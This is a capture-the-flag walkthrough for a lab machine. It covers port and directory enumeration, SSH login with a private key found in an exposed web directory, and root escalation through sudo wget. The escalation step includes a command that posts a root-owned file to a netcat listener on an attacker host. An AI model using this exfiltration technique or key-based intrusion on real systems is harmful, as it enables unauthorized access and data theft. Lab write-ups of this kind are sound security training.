









# Enumeration

A quick nmap scan reveals that ports 22 and 80 are open. We follow up with a detailed scan.

The web server displays the Apache2 Ubuntu Default Page, but if we look at the source code we find a potentially useful comment.

Let's use gobuster to find any possible directories of interest. Run `gobuster dir -u http://10.10.21.149 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
`. The only directory we find is `/sitemap`, which leads us to a template for Unapp.

We can also scan the web server with `nikto -h 10.10.21.149`, although nothing of note comes up. At this point we're a bit stuck, so let's run gobuster again using the directory we found. After running gobuster through a few different wordlists, we eventually find something interesting using the `common.txt` wordlist that comes with dirbuster. Run `gobuster dir -u http://10.10.21.149/sitemap -w /usr/share/dirb/wordlists/common.txt
`. 

Note that we have access to the `/.ssh` subdirectory. Navigating to it gives us an RSA key.

 

# Exploitation

The fact that a private RSA key was easily accessible is a major vulnerability. Since we know that SSH is running on port 22, we can try to exploit this vulnerability in the most natural way. We found a potential username earlier in the source code of the default Apache2 web page, so we can try SSHing into the machine with this. Use `chmod 600 id_rsa` to give the RSA key the correct permissions, then SSH in using `ssh -i id_rsa <username>@<target IP>`.

Success! From here, we gain initial access and we easily find the user flag.

 

# Post-exploitation

Let's begin looking for privilege escalation methods. Using `sudo -l`, we see that Jessie is able to run `wget` with root privileges.

We can use this to our advantage by setting up a netcat listener on our attacking machine and using wget (with root privileges) to send any POST request we want. Set up a netcat listener on the attacking machine. Making an educated guess at the location (and file name) of the root flag, we run `sudo /usr/bin/wget --post-file=/root/root_flag.txt http://<attacker IP>:<port>
`.  Our netcat listener receives the POST request, and the root flag is displayed.

